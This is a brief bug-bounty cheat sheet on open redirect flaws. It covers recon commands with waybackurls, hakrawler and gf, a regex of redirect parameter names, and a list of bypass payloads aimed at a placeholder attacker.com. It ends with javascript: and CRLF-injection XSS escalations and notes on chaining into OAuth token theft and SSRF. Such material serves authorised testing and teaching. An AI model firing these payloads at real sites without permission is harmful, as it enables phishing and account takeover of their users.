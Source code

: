 ```yaml
---
layout: post
title: Open Redirection Guide
categories: bughunting 
---
```


### Identify:
* [waybackurls](https://github.com/tomnomnom/waybackurls) + [hakrawler](https://github.com/hakluke/hakrawler) + [gf](https://github.com/tomnomnom/gf)
	*1*. ``cat subdomains | waybackurls | tee -a urls``
	*2*. ``cat subdomains | hakrawler -depth 3 -plain | tee -a urls``
	*3*. ``gf redirect urls``

	using ``redirect.json``:
```json
{
    "flags" : "-HanrE",
    "pattern" : "url=|rt=|cgi-bin/redirect.cgi|continue=|dest=|destination=|go=|out=|redir=|redirect_uri=|redirect_url=|return=|return_path=|returnTo=|rurl=|target=|view=|from_url=|load_url=|file_url=|page_url=|file_name=|page=|folder=|folder_url=|login_url=|img_url=|return_url=|return_to=|next=|redirect=|redirect_to=|logout=|checkout=|checkout_url=|goto=|next_page=|file=|load_file="
}
```
* Google dorks
``site:domain.com inrul:[PARAMETER]`` using the [parameter list](https://github.com/victoni/Bug-Bounty-Scripts/blob/master/open_redirection_parameters.txt)
* Manual inspection by navigating the webapp and intercepting the requests


### Exploit:
```
* ?redirect=http://example.com
* ?redirect=https://company.com.attacker.com
* ?redirect=https://company.com@attacker.com
* ?redirect=//attacker.com
* ?redirect=http://attacker.com#company.com
* ?redirect=http://attacker.com?company.com
* ?redirect=http://attacker.com/company.com
* ?redirect=http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Using special characters:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿ 。
```
## Escalating to other vulnerabilities:
 [Source](https://twitter.com/LooseSecurity/status/1120638007760117760)
```
Open Redirect + Miconfigured OAuth App => OAuth Token Stealing
Open Redirect + Filtered SSRF => SSRF
Open Redirect + CRLFi => XSS
Open Redirect + javascript URI => XSS
```
\
Escalate to XSS
* `` ?redirect=javascript:alert(1)``
* `` ?redirect=javascript:prompt(1)``

Escalate to XSS using CRLFi
* ``?redirect=java%0d%0ascript%0d%0a:alert(0)``

